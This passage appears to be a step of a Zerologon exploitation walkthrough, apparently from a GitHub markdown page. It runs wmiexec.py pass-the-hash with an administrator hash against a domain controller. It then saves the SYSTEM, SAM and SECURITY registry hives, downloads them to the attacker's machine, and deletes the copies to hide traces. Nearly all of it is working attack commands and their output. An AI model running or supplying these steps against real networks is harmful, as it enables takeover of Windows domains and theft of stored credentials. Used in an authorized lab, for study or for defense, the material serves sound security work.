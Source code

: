 ## 3rd run wmiexec.py to get terminal on victim machine:

wmiexec.py \<Domain\>/\<user-name\>@\<IP-Address\> -hashes \<administrator-hash\>

```
wmiexec.py ZEROLOGON/Administrator@192.168.1.28 -hashes aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976
```

Looking for:

C:\\>


## Commands to run once on victim machine:
```
verify who you are logged in as:
C:\>whoami
zerologon\administrator

verify the system you are logged into:
C:\>hostname
ZEROLOGON-DC

Prep logon credentials for download:
C:\>reg save HKLM\SYSTEM system.save
The operation completed successfully.

C:\>reg save HKLM\SAM sam.save
The operation completed successfully.

C:\>reg save HKLM\SECURITY security.save
The operation completed successfully.

Download logon credentials:
C:\>get system.save
[*] Downloading C:\\system.save

C:\>get sam.save
[*] Downloading C:\\sam.save

C:\>get security.save
[*] Downloading C:\\security.save

Clean up:
C:\>del /f system.save
C:\>del /f sam.save
C:\>del /f security.save
```

## Exit out and go back to Linux terminal: 
